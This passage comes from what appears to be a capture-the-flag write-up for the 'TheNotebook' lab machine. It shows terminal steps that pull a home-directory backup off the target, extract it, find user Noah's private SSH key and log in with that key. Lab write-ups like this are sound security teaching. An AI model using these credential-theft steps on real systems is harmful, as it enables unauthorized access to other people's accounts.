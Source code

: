 -rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
{% endhighlight %}

Let's move home.tar.gz to our local machine.

![TheNotebook info card](assets/notebookmove1.png)

Unzipping home.tar.gz we obtain a working ssh key for the user account Noah!

{% highlight bash %}
$ ls
backup  home.tar.gz  http10.10.10.230  jwtCodes  shell.php  thenotebook.gnmap  thenotebook.nmap  thenotebook.xml
$ tar -xf home.tar.gz 
$ ls
backup  home  home.tar.gz  http10.10.10.230  jwtCodes  shell.php  thenotebook.gnmap  thenotebook.nmap  thenotebook.xml
$ cd home
$ ls
noah
$ cd noah 
$ ls -la
total 32
drwxr-xr-x 5 kali kali 4096 Feb 17 04:02 .
drwxr-xr-x 3 kali kali 4096 Feb 12 01:24 ..
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali 4096 Feb 16 05:47 .cache
drwx------ 3 kali kali 4096 Feb 12 01:25 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwx------ 2 kali kali 4096 Feb 17 03:59 .ssh
$ cd .ssh
$ ls    
authorized_keys  id_rsa  id_rsa.pub
$ chmod 600 id_rsa
$ ssh -i id_rsa noah@10.10.10.230
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  3 20:42:50 UTC 2021

  System load:  0.0               Processes:              200
  Usage of /:   45.9% of 7.81GB   Users logged in:        1
  Memory usage: 19%               IP address for ens160:  10.10.10.230
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


137 packages can be updated.
75 updates are security updates.
